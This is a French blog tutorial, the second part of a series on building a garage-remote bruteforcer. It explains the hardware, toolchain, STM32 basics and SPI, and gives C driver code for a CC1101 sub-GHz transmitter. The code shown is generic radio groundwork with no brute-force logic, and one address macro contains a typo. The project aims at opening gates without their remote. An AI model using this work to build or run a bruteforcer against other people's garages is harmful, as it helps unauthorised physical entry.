# Partie 2 : Développement d'un bruteforceur de clé de garage

## 1. Le matériel

Bruteforcer une clé de garage équivaut à créer sa propre télécommande de portail.
Pour ce faire, il faut pouvoir émettre un message par radio, ce qui nécessite une antenne et une baseband pour la piloter.
Pour cet outil, je souhaite couvrir un maximum de télécommandes à moindre coût.
La baseband CC1101 de Texas Instruments est fera l'affaire.

Cet outil peut émettre à différentes fréquences sub-GHz et utiliser plusieurs types de modulations, comme expliqué dans sa documentation.
Pour les achats, afin de rester dans le cadre du prototypage, on peut se procurer n'importe quel module intégrant déjà ce transmetteur, son antenne, les composants externes nécessaires à son bon fonctionnement, ainsi qu'une interface SPI, pour seulement quelques euros en ligne.



La documentation indique que ce transmetteur est configurable via plusieurs registres accessibles en lecture et écriture par un bus SPI.
Pour piloter notre transmetteur TI CC1101, nous avons donc besoin d'un microcontrôleur capable de communiquer sur ce type de bus.
La majorité des microcontrôleurs en sont capables.
Dans ce contexte, nous utiliserons le STM32F103.

Bien que cela ne soit pas nécessaire et ne sera pas abordé dans cet article, il est possible de communiquer avec un PC via une liaison série.
En général, l'UART est utilisé pour ce type de communication.
Cependant, étant donné que la plupart des PC ne sont plus équipés de ports RS232, l'UART nécessite souvent un convertisseur UART-USB pour créer un port COM virtuel.

Pour éviter l'utilisation d'un convertisseur, on peut opter pour un microcontrôleur capable de communication USB et le configurer en tant que périphérique de classe CDC afin de le connecter directement à un PC via un port USB. Le STM32F103 dispose de cette capacité.

Ce microcontrôleur est facilement accessible sous forme de carte de développement appelée Bluepill. Je recommande particulièrement la version de WeAct.



La dernière carte à ne pas oublier, si vous ne la possédez pas déjà, est un programmateur pour le microcontrôleur.
Le choix est simple : un STLinkV2. N'importe lequel disponible en ligne fera l'affaire.

Une fois assemblé, le montage ressemble à ceci :


## 2. Toolchain

La toolchain de développement pour microcontrôleur présente certaines particularités, mais elle reste globalement similaire à une toolchain classique.
Elle nécessite quatre éléments différents

- Un éditeur de texte, bien sûr.
- Un compilateur.
- Un débogueur.
- Une interface pour la programmation et le débogage physique.

Il existe plusieurs outils différents disponibles, voici ceux que j'utilise :

Pour l'éditeur de texte, j'utilise Neovim.
Le microcontrôleur choisi est un ARM Cortex M3. Donc pour le compilateur et le débogueur, j'utilise les outils classiques de la suite ARM GNU toolchain.
En ce qui concerne l'interface de débogage physique, il faut un outil compatible avec notre STLinkV2.
Bien que STMicroelectronics propose son propre outil, j'ai l'habitude d'utiliser OpenOCD, qui possède une configuration pour le STLinkV2.

Tout cela est suffisant, mais STMicroelectronics propose un autre outil très pratique pour réaliser des prototypes rapidement : STM32CubeMX.
Cet outil graphique, dédié à la famille des microcontrôleurs STM32, permet d'obtenir facilement de la documentation et de générer du code à l'aide des différentes bibliothèques proposées par STMicroelectronics.
Je l'utilise souvent pour créer rapidement un projet, générer son Makefile et importer les bibliothèques dont j'ai besoin

Pour resumer:

| Editeur | Complilateur      | Debugger          | Interface | Bonus       |
| ------- | ----------------- | ----------------- | --------- | ----------- |
| NeoVim  | arm-none-eabi-gcc | arm-none-eabi-gdb | OpenOCD   | STM32CubeMX |

## 3. Développement

### Comment interagir avec un microcontrôleur ?

Pour les novices, voici un résumé succinct des concepts essentiels à connaître pour comprendre comment interagir avec un microcontrôleur.

#### Memory-mapped I/O

La plupart des interactions se font à travers les registres du microcontrôleur, accessibles par ce que l'on appelle le "memory-mapped I/O".
Chaque fonctionnalité matérielle du microcontrôleur est associée à un ou plusieurs registres, chacun ayant une adresse spécifique.
Vous trouverez le mappage de ces registres dans la documentation.



Ainsi, pour par exemple, allumer une LED, on la connecte à une broche GPIO (General Purpose Input Output) du microcontrôleur ainsi qu'à la masse.
Ensuite, il suffit de configurer les registres pour mettre cette broche en mode sortie et la définir à un état haut, c'est-à-dire 3,3V dans notre cas.

Les GPIO du STM32F103 sont regroupés en ports de 16 broches chacun, permettant ainsi l'utilisation d'un registre de 2 octets par port.
Prenons l'exemple de la broche 3 du port A.
Pour configurer cette broche en mode sortie, il faut consulter la documentation pour identifier le registre de configuration correspondant.



On doit donc rechercher l'adresse à laquelle ce registre est mappé.





Cela nous donne les valeurs suivantes :

```c
#define GPIOA_base 0x0x40010800
#define GPIO_CRL_offset 0x00

#define GPIOA_CRL (*(GPIOA_base + GPIOA_CRL_offset))

#define GPIO_CRL_MODE3 (0b11 << 12)
#define GPIO_CRL_CNF3 (0b11 << 14)
```

Pour configurer la broche 3 en mode sortie, la documentation indique qu'il faut définir les bits 12 à 13 (MODE3) du registre GPIO_CR à une valeur supérieure à 0, et les bits 14 à 15 (CNF3) à 0b00, ce qui correspond au mode push-pull (reliant la broche à l'alimentation Vdd).

```c
GPIOA_CRL |= GPIO_CRL_MODE3;
GPIOA_CRL &= ~(GPIO_CRL_CNF3);
```

Il ne reste plus qu'à mettre la broche à l'état haut.
La documentation propose deux méthodes pour accomplir cela.
La première méthode permet de contrôler simultanément toutes les broches du port.



La deuxième méthode permet de contrôler chaque broche individuellement.



On configure donc la broche à l'état haut.

```c
GPIOA_BSRR = GPIO_BSRR_BS3;
```

Heureusement, la plupart des fournisseurs proposent des en-têtes définissant ces registres et leurs adresses, ainsi que des bibliothèques pour faciliter leur utilisation.

#### Horloge

Un autre aspect important à comprendre pour éviter des heures de débogage inutiles est le concept d'horloges.
En électronique numérique, une horloge est un composant qui génère un signal carré à fréquence fixe, servant à synchroniser les différents modules de logique numérique.
La fréquence du signal d'horloge principal détermine la fréquence de calcul effective du processeur ou du microcontrôleur.

Il existe plusieurs types d'horloges, et leurs performances sont principalement évaluées en fonction de deux critères : la vitesse et la précision.
En général, pour un même prix, une horloge plus rapide tend à être moins précise, et inversement.

Les microcontrôleurs possèdent généralement une horloge interne, mais ils offrent également la possibilité de la compléter ou de la remplacer par une ou plusieurs horloges externes.
La BluePill dispose d'un résonateur à cristal utilisé comme horloge externe haute vitesse (HSE, pour High Speed External).
Ces horloges sont rapides, mais souvent moins précises que certaines horloges plus lentes conçues spécifiquement pour la précision. Dans notre cas, cette horloge externe convient parfaitement.

Jusqu'à présent, j'ai parlé d'une seule source de signal d'horloge, mais en réalité, les microcontrôleurs modernes permettent de diviser ce signal unique en plusieurs sources distinctes.
Les différents blocs logiques du microcontrôleur sont regroupés en plusieurs sections, chacune fonctionnant à des fréquences distinctes et configurables.

Cette séparation permet aux développeurs de réduire la consommation de courant en désactivant ou en limitant les groupes de blocs qui sont moins nécessaires.
Par exemple, sur les STM32, chaque horloge de bus est désactivée par défaut, ce qui rend les modules sur ce bus inopérants et évite ainsi une consommation inutile d'énergie.
Cependant, cela oblige le développeur à s'assurer que l'horloge du bus sur lequel le module est connecté est activée.

Ces groupes sont connectés à leurs sources d'horloge respectives et au cœur Cortex M3, dans notre cas, via des bus de données.
Les détails de ces groupements sont spécifiés dans la documentation du microcontrôleur.



APB1 et APB2 sont deux exemples de bus de données, chacun ayant sa propre horloge.
Concrètement, comme illustré dans ce schéma, pour activer une broche GPIO du port A, il est crucial de vérifier que l'horloge du bus APB2 est activée et correctement configurée.

Pour configurer la fréquence de ces horloges à partir de l'horloge source, les fabricants de microcontrôleurs ont intégré deux composants distincts :

- **Des PLL (Phase-Locked Loop, ou Boucle à Verrouillage de Phase, pour ceux qui se souviennent de leurs cours d'électronique)**, qui permettent de multiplier la fréquence du signal d'horloge par des puissances de 2.
- **Des prescalers**, tels qu'un groupe de 2 bascules D (D flip-flops), qui permettent de diviser la fréquence du signal carré par des puissances de 2.

Nous sommes donc limités à deux opérations sur notre horloge source : des multiplications et des divisions par des puissances de 2.
Pour déterminer les valeurs à attribuer à ces prescalers et PLL, la documentation fournit un schéma illustrant leur emplacement et leur configuration.



Ce schéma montre l'horloge principale, appelée ici AHB, à partir de laquelle les horloges pour les bus sont dérivées. Cette horloge principale peut être générée par différentes sources : les horloges internes rapides ou lentes (HSI, LSI), ou les horloges externes rapides ou lentes, qui doivent être ajoutées sur le PCB, généralement à proximité du microcontrôleur (HSE, LSE).

Le schéma indique également que le microcontrôleur ne peut pas être cadencé au-delà de 72 MHz, car c'est la fréquence maximale supportée par l'horloge principale, et aucune PLL n'est disponible après cette horloge.
Par conséquent, les fréquences des bus ne peuvent être que des valeurs inférieures à celle-ci.

Chacune de ces valeurs pour les prescalers et PLL, ainsi que l'activation ou la désactivation de chaque horloge, est configurable en modifiant les registres associés, selon le principe du memory-mapped I/O, comme mentionné précédemment.
Bien que ces valeurs puissent être définies manuellement, nous verrons comment calculer automatiquement ces réglages en fonction d'une fréquence de sortie cible.

#### Bus SPI

Développé par Motorola dans les années 1980, le bus série SPI (Serial Peripheral Interface) est un protocole de communication synchrone utilisé principalement pour échanger des données entre un microcontrôleur et des périphériques tels que des capteurs, mémoires, ou modules de communication.

**Structure et Fonctionnement**
Le bus SPI est composé de quatre lignes principales :

- MOSI (Master Out Slave In) : Ligne de données où le maître envoie des données au(x) esclave(s).
- MISO (Master In Slave Out) : Ligne de données où l'esclave envoie des données au maître.
- SCLK (Serial Clock) : Ligne d'horloge générée par le maître pour synchroniser la communication.
- SS/CS (Slave Select/Chip Select) : Ligne de sélection du périphérique esclave. Cette ligne est tirée bas pour activer l’esclave spécifique avec lequel le maître souhaite communiquer.

**Modes de Communication**
Le SPI fonctionne en mode maître-esclave. Le maître contrôle le bus SPI en générant le signal d’horloge et en sélectionnant les esclaves avec lesquels il souhaite communiquer. Un ou plusieurs esclaves peuvent être connectés au même bus, et le maître sélectionne l'esclave actif en tirant la ligne SS/CS de cet esclave à l’état bas.

La communication SPI se fait en full-duplex, ce qui signifie que les données peuvent être envoyées et reçues simultanément.
À chaque cycle d'horloge, un bit est transmis du maître à l'esclave sur la ligne MOSI, et simultanément, un bit est transmis de l'esclave au maître sur la ligne MISO.
La synchronisation des données est contrôlée par l'horloge SCLK, et le nombre de bits à transmettre est généralement un multiple de 8 (octet).

**Configuration des Modes SPI**
Le SPI dispose de quatre modes de communication, définis par deux paramètres :

CPOL (Clock Polarity) : Détermine l'état de repos de l'horloge (bas ou haut).
CPHA (Clock Phase) : Détermine à quel front d'horloge (montant ou descendant) les données sont échantillonnées.
Les quatre combinaisons possibles de CPOL et CPHA sont les modes SPI 0, 1, 2, et 3, chacun ayant une configuration spécifique du timing de l'horloge par rapport aux données.



### Initialisation du projet

Si vous avez bien compris cela, vous disposez des connaissances de base nécessaires pour développer ce projet en utilisant le logiciel STM32CubeMX.

Pour initialiser le projet, nous avons principalement besoin de quatre éléments :

- Un script de chargement pour mapper les différentes sections en mémoire aux adresses définies par le constructeur du microcontrôleur.
- Un code de démarrage pour initialiser le microcontrôleur.
- Un Makefile pour simplifier le processus de compilation.
- Des en-têtes définissant les adresses des registres du microcontrôleur, facilitant ainsi la lecture du code. Pour un microcontrôleur ARM, ces définitions sont généralement incluses dans le CMSIS fourni par le constructeur, il suffit donc de les importer.

Tout cela peut être fait manuellement, et il est même préférable de le faire soi-même.
Cependant, pour un simple prototype, nous pouvons utiliser un outil proposé par le constructeur du microcontrôleur : STM32CubeMX.
Cet outil facilite également l'importation des définitions CMSIS et des bibliothèques fournies par STMicroelectronics.

#### Initialisation avec STM32CubeMX

Pour résumer ce que nous avons besoin que STM32CubeMX génère :

- Un Makefile
- Le code de démarrage
- Les définitions CMSIS
- La configuration des différentes horloges
- Les bibliothèques SPI

La première étape avec STM32CubeMX est de spécifier le microcontrôleur que nous utilisons.
Nous commençons donc par sélectionner le STM32F103.



Une fois sélectionné, la première étape consiste à configurer le bus de débogage que nous allons utiliser. Ici, nous optons pour le protocole SWD (Serial Wire Debug).



Ensuite, il faut configurer les horloges.
La BluePill dispose d'un résonateur à cristal qui sert d'horloge externe haute vitesse.
Dans notre cas, cette horloge est parfaitement adaptée.

Nous commençons par indiquer au logiciel que nous utiliserons cette horloge externe.



Ensuite, STM32CubeMX peut automatiquement calculer les valeurs des prescalers et des PLL pour obtenir la fréquence souhaitée.
Pour l'instant, sans optimisation de la consommation d'énergie, nous sélectionnons l'HSE et définissons la fréquence maximale que le microcontrôleur peut supporter.



### CC1101 Driver

Maintenant que tout est configuré, nous pouvons interfacer notre microcontrôleur avec le Texas Instruments CC1101, qui servira de baseband.

Pour écrire ce driver, je m'appuie sur trois documents de Texas Instruments :

Pour écrire ce driver, je m'appuie sur trois documents de Texas Instruments :

- Documentation principale : [CC1101 Datasheet](https://www.ti.com/lit/ds/symlink/cc1101.pdf?ts=1721033884779&ref_url=https%253A%252F%252Fwww.ti.com%252Fproduct%252Fde-de%252FCC1101%253Fbm-verify%253DAAQAAAAJ_____xUdvi-J-5PkGdRVZxyuX1OJePSsmBDICuWpFKuKCU7fFDiiVk6ohjPTBQjzyhQmlxeGorGXG1UOvObeVS2Htdq-ogSeSXQG442LJeDCTUyEKjFdO8w9Ect6ME1l50d573k7pihzOD6EvnwX3xPNgqq5GyaAAIfge3sDSejxi9F599MMaO504KF1E-1XPIH8qRPDWWxWNwNZSTawZam8BP1THnyMufQQinI1U4u8k1WzuTn1oRQtBpk7h756ZCr2Dwfij9VGGA75inoBs4mm-1Yb3byJ2rLDTTnfW-seuQrl5QKQO-YhKxQwvg)
- Manuel utilisateur : [CC1101 Module Manual](https://www.elechouse.com/elechouse/images/product/CC1101%20Wirless%20Data%20Transmittion%20Module/CC1101%20Module%20Manual.pdf)
- Design Note DN503 : [Design Note DN503](https://www.ti.com/lit/an/swra112b/swra112b.pdf?ts=1720967225792)

Presque tous les capteurs ou composants de ce type fonctionnent de la même manière que notre microcontrôleur.
Ils possèdent des registres qui permettent de configurer leurs fonctionnalités matérielles et de les appeler.
Dans notre cas, ces registres sont accessibles via un bus série SPI.

#### Définitions

Pour trouver les adresses de ces registres, il est possible de les extraire de la documentation principale.
Cependant, un exemple en C est déjà fourni dans le manuel utilisateur.

```c
#define CC1101_IOCFG2 0x00 // GDO2 output pin configuration
#define CC1101_IOCFG1 0x01 // GDO1 output pin configuration
#define CC1101_IOCFG0 0x02 // GDO0 output pin configuration
#define CC1101_FIFOTHR 0x03 // RX FIFO and TX FIFO thresholds
#define CC1101_SYNC1 0x04 // Sync word, high uint8_t_t
#define CC1101_SYNC0 0x05 // Sync word, low uint8_t_t
#define CC1101_PKTLEN 0x06 // Packet length
#define CC1101_PKTCTRL1 0x07 // Packet automation control
#define CC1101_PKTCTRL0 0x08 // Packet automation control
#define CC1101_ADDR 0x09 // Device address
#define CC1101_CHANNR 0x0A // Channel number
#define CC1101_FSCTRL1 0x0B // Frequency synthesizer control
#define CC1101_FSCTRL0 0x0C // Frequency synthesizer control
#define CC1101_FREQ2 0x0D // Frequency control word, high uint8_t_t
#define CC1101_FREQ1 0x0E // Frequency control word, middle uint8_t_t
#define CC1101_FREQ0 0x0F // Frequency control word, low uint8_t_t
#define CC1101_MDMCFG4 0x10 // Modem configuration
#define CC1101_MDMCFG3 0x11 // Modem configuration
#define CC1101_MDMCFG2 0x12 // Modem configuration
#define CC1101_MDMCFG1 0x13 // Modem configuration
#define CC1101_MDMCFG0 0x14 // Modem configuration
#define CC1101_DEVIATN 0x15 // Modem deviation setting
#define CC1101_MCSM2 0x16 // Main Radio Control State Machine configuration
#define CC1101_MCSM1 0x17 // Main Radio Control State Machine configuration
#define CC1101_MCSM0 0x18 // Main Radio Control State Machine configuration
#define CC1101_FOCCFG 0x19 // Frequency Offset Compensation configuration
#define CC1101_BSCFG 0x1A // Bit Synchronization configuration
#define CC1101_AGCCTRL2 0x1B // AGC control
#define CC1101_AGCCTRL1 0x1C // AGC control
#define CC1101_AGCCTRL0 0x1D // AGC control
#define CC1101_WOREVT1 0x1E // High uint8_t_t Event 0 timeout
#define CC1101_WOREVT0 0x1F // Low uint8_t_t Event 0 timeout
#define CC1101_WORCTRL 0x20 // Wake On Radio control
#define CC1101_FREND1 0x21 // Front end RX configuration
#define CC1101_FREND0 0x22 // Front end TX configuration
#define CC1101_FSCAL3 0x23 // Frequency synthesizer calibration
#define CC1101_FSCAL2 0x24 // Frequency synthesizer calibration
#define CC1101_FSCAL1 0x25 // Frequency synthesizer calibration
#define CC1101_FSCAL0 0x26 // Frequency synthesizer calibration
#define CC1101_RCCTRL1 0x27 // RC oscillator configuration
#define CC1101_RCCTRL0 0x28 // RC oscillator configuration
#define CC1101_FSTEST 0x29 // Frequency synthesizer calibration control
#define CC1101_PTEST 0x2A // Production test
#define CC1101_AGCTEST 0x2B // AGC test
#define CC1101_TEST2 0x2C // Various test settings
#define CC1101_TEST1 0x2D // Various test settings
#define CC1101_TEST0 0x2E // Various test settings
// Strobe commands
#define CC1101_SRES 0x30 // Reset chip.
#define CC1101_SFSTXON 0x31 // Enable and calibrate frequency synthesizer (if MCSM0.FS_AUTOCAL = 1).
// If in RX / TX: Go to a wait state where only the synthesizer is
// Running (for quick RX / TX turnaround).
#define CC1101_SXOFF 0x32 // Turn off crystal oscillator.
#define CC1101_SCAL 0x33 // Calibrate frequency synthesizer and turn it off
// (Enables quick start).
#define CC1101_SRX 0x34 // Enable RX. Perform calibration first if coming from IDLE and
// MCSM0.FS_AUTOCAL = 1.
#define CC1101_STX 0x35 // In IDLE state: Enable TX. Perform calibration first if
// MCSM0.FS_AUTOCAL = 1. If in RX state and CCA is enabled:
// Only go to TX if channel is clear.
#define CC1101_SIDLE 0x36 // Exit RX / TX, turn off frequency synthesizer and exit
// Wake-On-Radio mode if applicable.
#define CC1101_SAFC 0x37 // Perform AFC adjustment of the frequency synthesizer
#define CC1101_SWOR 0x38 // Start automatic RX polling sequence (Wake-on-Radio)
#define CC1101_SPWD 0x39 // Enter power down mode when CSn goes high.
#define CC1101_SFRX 0x3A // Flush the RX FIFO buffer.
#define CC1101_SFTX 0x3B // Flush the TX FIFO buffer.
#define CC1101_SWORRST 0x3C // Reset real time clock.
#define CC1101_SNOP 0x3D // No operation. May be used to pad strobe commands to two
// uint8_t_ts for simpler software.
#define CC1101_PARTNUM 0x30
#define CC1101_VERSION 0x31
#define CC1101_FREQEST 0x32
#define CC1101_LQI 0x33
#define CC1101_RSSI 0x34
#define CC1101_MARCSTATE 0x35
#define CC1101_WORTIME1 0x36
#define CC1101_WORTIME0 0x37
#define CC1101_PKTSTATUS 0x38
#define CC1101_VCO_VC_DAC 0x39
#define CC1101_TXBYTES 0x3A
#define CC1101_RXBYTES 0x3B
#define CC1101_PATABLE 0x3E
#define CC1101_TXFIFO 0x3F
#define CC1101_RXFIFO 0x3F

#define CC1101_MOD_2FSK 0x00
#define CC1101_MOD_GFSK 0x01
#define CC1101_MOD_ASK_OOK 0x03
#define CC1101_MOD_4FSK 0x04
#define CC1101_MOD_MSK 0x07
```

Notre driver devra initialiser le CC1101 avec une configuration donnée et fournir une abstraction permettant l'écriture de paquets.

On peut encapsuler cela dans une structure simple, qui mémorise l'interface SPI liée à notre CC1101 et expose notre abstraction pour l'écriture de paquets.

```c
typedef struct CC1101_Handle_s {
	SPI_HandleTypeDef *hspi;

	void (*SendPacket) (struct CC1101_Handle_s*, uint8_t*, uint8_t);
} CC1101_HandleTypeDef;

void CC1101_Init(CC1101_HandleTypeDef* this, SPI_HandleTypeDef* hspi, rfSettings* settings);
```

Le protocole pour écrire sur un registre est décrit dans la Design Note 503.



Ce protocole est assez simple.
Il est spécifié que l'on doit commencer par envoyer un en-tête comprenant un bit indiquant l'action de lecture ou d'écriture, suivi d'un second bit spécifiant le mode de transfert : soit un mode octet par octet, soit un mode burst.
L'adresse du registre suit cet en-tête. Ensuite, on peut lire les données reçues en cas de lecture ou écrire nos données en cas d'écriture.

Pour créer ces en-têtes, nous pouvons donc définir les macros suivantes :

```c
#define CC1101_WRITE(addr) (addr)
#define CC1101_WRITE_BURST(addr) (addr | 0x40)
#define CC1101_READ(addr) (addr | 0x80)
#define CC1101_READ_BURST(addr) (addr | 0xC0)
```

#### Lecture/écriture des registres

On constate qu'en plus de la possibilité d'écrire dans les registres, il est également possible d'envoyer des commandes appelées "Strobes" pour demander au CC1101 d'effectuer certaines actions.
Il est précisé que seule l'adresse de la commande doit être communiquée, sans autres données supplémentaires.



Ensuite, il n'y a rien de plus simple : il suffit de suivre le protocole.

```c
static HAL_StatusTypeDef CC1101_WriteReg(CC1101_HandleTypeDef* this, uint8_t address, uint8_t* data, size_t size)
{
	if (!this) { return HAL_ERROR; }

	HAL_StatusTypeDef status;
	/* uint8_t header = (data && size) ? (size <= 1) ? CC1101_WRITE(address) : CC1101_WRITE_BURST(address) : address; */
	uint8_t header = (data && size) ? CC1101_WRITE_BURST(address) : address; /* Register access header or simple command strobe */

	SPI_SELECT;

	status = HAL_SPI_Transmit(this->hspi, &header, 1, CC1101_SPI_DELAY);

	if (status == HAL_OK && data)
		status = HAL_SPI_Transmit(this->hspi, data, size, CC1101_SPI_DELAY);

	SPI_DESELECT;

	DWT_Init();
	DWT_Delay(50);

	return status;
}
```

Dans mon cas, le mode d'accès octet par octet ne semblait pas fonctionner, probablement en raison d'une erreur de ma part.
Toutefois, ce n'est pas très préoccupant, car le mode burst fonctionne. Je vais donc utiliser exclusivement ce dernier.

Pour la lecture des registres, on suit le même protocole.

```c
static HAL_StatusTypeDef CC1101_ReadReg(CC1101_HandleTypeDef* this, uint8_t address, uint8_t* buf, size_t size)
{
	if (!this || !buf) { return HAL_ERROR; }

	/* uint8_t header = size <= 1 ? CC1101_READ(address) : CC1101_READ_BURST(address); */
	uint8_t header    = CC1101_READ_BURST(address);
	size_t i          = 0; while ( i < size) *(buf + i++) = 0;

	SPI_SELECT;

	HAL_SPI_Transmit(this->hspi, &header, 1, CC1101_SPI_DELAY);
	HAL_StatusTypeDef status = HAL_SPI_Receive(this->hspi, buf, size, CC1101_SPI_DELAY);

	SPI_DESELECT;

	DWT_Init();
	DWT_Delay(50);

	return status;
}
```

Pour vérifier que la communication avec le CC1101 fonctionne correctement, il suffit de tenter de lire un registre dont la valeur est fixe et connue à l'avance, souvent un numéro de version ou de révision.
Une recherche du terme "version" dans la documentation principale donne le résultat suivant :




Il existe un registre contenant la version du CC1101, et sa valeur doit être égale à 0x14.

```c
uint8_t version;

CC1101_ReadReg(this, CC1101_VERSION, &version, 1);
```

Nous vérifions d'abord que nous obtenons le résultat correct pour valider la partie lecture.
Ensuite, nous lisons un registre modifiable, changeons sa valeur, puis le relisons pour confirmer que l'écriture a été correctement effectuée.

#### Routine de configuration

Ensuite, nous en profitons pour définir une routine de configuration des registres de paramétrage du CC1101.

Nous commençons par définir la structure qui sera remplie lors de l'initialisation de notre driver.

```c
typedef struct rfSettings_s {
	uint8_t iocfg2;     // GDO2 Output Pin Configuration
    uint8_t iocfg1;     // GDO1 Output Pin Configuration
    uint8_t iocfg0;     // GDO0 Output Pin Configuration
    uint8_t fifothr;    // RX FIFO and TX FIFO Thresholds
    uint8_t sync1;      // Sync Word, High Byte
    uint8_t sync0;      // Sync Word, Low Byte
    uint8_t pktlen;     // Packet Length
    uint8_t pktctrl1;   // Packet Automation Control
    uint8_t pktctrl0;   // Packet Automation Control
    uint8_t addr;       // Device Address
    uint8_t channr;     // Channel Number
    uint8_t fsctrl1;    // Frequency Synthesizer Control
    uint8_t fsctrl0;    // Frequency Synthesizer Control
    uint8_t freq2;      // Frequency Control Word, High Byte
    uint8_t freq1;      // Frequency Control Word, Middle Byte
    uint8_t freq0;      // Frequency Control Word, Low Byte
    uint8_t mdmcfg4;    // Modem Configuration
    uint8_t mdmcfg3;    // Modem Configuration
    uint8_t mdmcfg2;    // Modem Configuration
    uint8_t mdmcfg1;    // Modem Configuration
    uint8_t mdmcfg0;    // Modem Configuration
    uint8_t deviatn;    // Modem Deviation Setting
    uint8_t mcsm2;      // Main Radio Control State Machine Configuration
    uint8_t mcsm1;      // Main Radio Control State Machine Configuration
    uint8_t mcsm0;      // Main Radio Control State Machine Configuration
    uint8_t foccfg;     // Frequency Offset Compensation Configuration
    uint8_t bscfg;      // Bit Synchronization Configuration
    uint8_t agcctrl2;   // AGC Control
    uint8_t agcctrl1;   // AGC Control
    uint8_t agcctrl0;   // AGC Control
    uint8_t worevt1;    // High Byte Event0 Timeout
    uint8_t worevt0;    // Low Byte Event0 Timeout
    uint8_t worctrl;    // Wake On Radio Control
    uint8_t frend1;     // Front End RX Configuration
    uint8_t frend0;     // Front End TX Configuration
    uint8_t fscal3;     // Frequency Synthesizer Calibration
    uint8_t fscal2;     // Frequency Synthesizer Calibration
    uint8_t fscal1;     // Frequency Synthesizer Calibration
    uint8_t fscal0;     // Frequency Synthesizer Calibration
    uint8_t rcctrl1;    // RC Oscillator Configuration
    uint8_t rcctrl0;    // RC Oscillator Configuration
    uint8_t fstest;     // Frequency Synthesizer Calibration Control
    uint8_t ptest;      // Production Test
    uint8_t agctest;    // AGC Test
    uint8_t test2;      // Various Test Settings
    uint8_t test1;      // Various Test Settings
    uint8_t test0;      // Various Test Settings
	uint8_t pa_table[8]; // PA Table
} rfSettings;
```

Ensuite, nous définissons la routine de mise à jour.

```c
static HAL_StatusTypeDef CC1101_ConfUpdate(CC1101_HandleTypeDef *this,
                                           rfSettings *settings) {
  if (!this) {
    return HAL_ERROR;
  }

  CC1101_WriteReg(this, CC1101_IOCFG2, &settings->iocfg2, 1);
  CC1101_WriteReg(this, CC1101_IOCFG1, &settings->iocfg1, 1);
  CC1101_WriteReg(this, CC1101_IOCFG0, &settings->iocfg0, 1);
  CC1101_WriteReg(this, CC1101_FIFOTHR, &settings->fifothr, 1);
  CC1101_WriteReg(this, CC1101_SYNC1, &settings->sync1, 1);
  CC1101_WriteReg(this, CC1101_SYNC0, &settings->sync0, 1);
  CC1101_WriteReg(this, CC1101_PKTLEN, &settings->pktlen, 1);
  CC1101_WriteReg(this, CC1101_PKTCTRL1, &settings->pktctrl1, 1);
  CC1101_WriteReg(this, CC1101_PKTCTRL0, &settings->pktctrl0, 1);
  CC1101_WriteReg(this, CC1101_ADDR, &settings->addr, 1);
  CC1101_WriteReg(this, CC1101_CHANNR, &settings->channr, 1);
  CC1101_WriteReg(this, CC1101_FSCTRL1, &settings->fsctrl1, 1);
  CC1101_WriteReg(this, CC1101_FSCTRL0, &settings->fsctrl0, 1);
  CC1101_WriteReg(this, CC1101_FREQ2, &settings->freq2, 1);
  CC1101_WriteReg(this, CC1101_FREQ1, &settings->freq1, 1);
  CC1101_WriteReg(this, CC1101_FREQ0, &settings->freq0, 1);
  CC1101_WriteReg(this, CC1101_MDMCFG4, &settings->mdmcfg4, 1);
  CC1101_WriteReg(this, CC1101_MDMCFG3, &settings->mdmcfg3, 1);
  CC1101_WriteReg(this, CC1101_MDMCFG2, &settings->mdmcfg2, 1);
  CC1101_WriteReg(this, CC1101_MDMCFG1, &settings->mdmcfg1, 1);
  CC1101_WriteReg(this, CC1101_MDMCFG0, &settings->mdmcfg0, 1);
  CC1101_WriteReg(this, CC1101_DEVIATN, &settings->deviatn, 1);
  CC1101_WriteReg(this, CC1101_MCSM2, &settings->mcsm2, 1);
  CC1101_WriteReg(this, CC1101_MCSM1, &settings->mcsm1, 1);
  CC1101_WriteReg(this, CC1101_MCSM0, &settings->mcsm0, 1);
  CC1101_WriteReg(this, CC1101_FOCCFG, &settings->foccfg, 1);
  CC1101_WriteReg(this, CC1101_BSCFG, &settings->bscfg, 1);
  CC1101_WriteReg(this, CC1101_AGCCTRL2, &settings->agcctrl2, 1);
  CC1101_WriteReg(this, CC1101_AGCCTRL1, &settings->agcctrl1, 1);
  CC1101_WriteReg(this, CC1101_AGCCTRL0, &settings->agcctrl0, 1);
  CC1101_WriteReg(this, CC1101_WOREVT1, &settings->worevt1, 1);
  CC1101_WriteReg(this, CC1101_WOREVT0, &settings->worevt0, 1);
  CC1101_WriteReg(this, CC1101_WORCTRL, &settings->worctrl, 1);
  CC1101_WriteReg(this, CC1101_FREND1, &settings->frend1, 1);
  CC1101_WriteReg(this, CC1101_FREND0, &settings->frend0, 1);
  CC1101_WriteReg(this, CC1101_FSCAL3, &settings->fscal3, 1);
  CC1101_WriteReg(this, CC1101_FSCAL2, &settings->fscal2, 1);
  CC1101_WriteReg(this, CC1101_FSCAL1, &settings->fscal1, 1);
  CC1101_WriteReg(this, CC1101_FSCAL0, &settings->fscal0, 1);
  CC1101_WriteReg(this, CC1101_RCCTRL1, &settings->rcctrl1, 1);
  CC1101_WriteReg(this, CC1101_RCCTRL0, &settings->rcctrl0, 1);
  CC1101_WriteReg(this, CC1101_FSTEST, &settings->fstest, 1);
  CC1101_WriteReg(this, CC1101_PTEST, &settings->ptest, 1);
  CC1101_WriteReg(this, CC1101_AGCTEST, &settings->agctest, 1);
  CC1101_WriteReg(this, CC1101_TEST2, &settings->test2, 1);
  CC1101_WriteReg(this, CC1101_TEST1, &settings->test1, 1);
  CC1101_WriteReg(this, CC1101_TEST0, &settings->test0, 1);
  CC1101_WriteReg(this, CC1101_PATABLE, settings->pa_table,
                  sizeof(settings->pa_table));

  return HAL_OK;
}
```

#### Envoi de paquets avec le CC1101

La documentation décrit le schéma de fonctionnement suivant :



Nous nous concentrons ici uniquement sur l'envoi de paquets, en laissant de côté leur réception.
Par conséquent, seule la partie gauche du schéma nous intéresse.
En simplifiant ce schéma, on observe que le CC1101 doit être en état **IDLE** pour pouvoir initier une transmission.
Pour atteindre cet état, une commande strobe **SIDLE** peut être envoyée.
Ensuite, une commande strobe **STX** démarre la transmission d’un message.
Une fois ce message transmis, le CC1101 passe par plusieurs états, incluant l'état **TX_UNDERFLOW**.
Après l'envoi de la commande strobe **SFTX**, le buffer est flushé et le CC1101 retourne à l'état **IDLE**, prêt pour une nouvelle transmission.

Pour resumer, la documentation précise que la commande **STX** est celle qui initialise un transfert de données.
L'état **TX** correspond à l'envoi de données stockées dans le buffer **TX_FIFO**.
L'état **TX_UNDERFLOW** signale qu'il n'y a plus de données à transmettre depuis le buffer **TX_FIFO**.
Enfin, le CC1101 revient en mode **IDLE**.



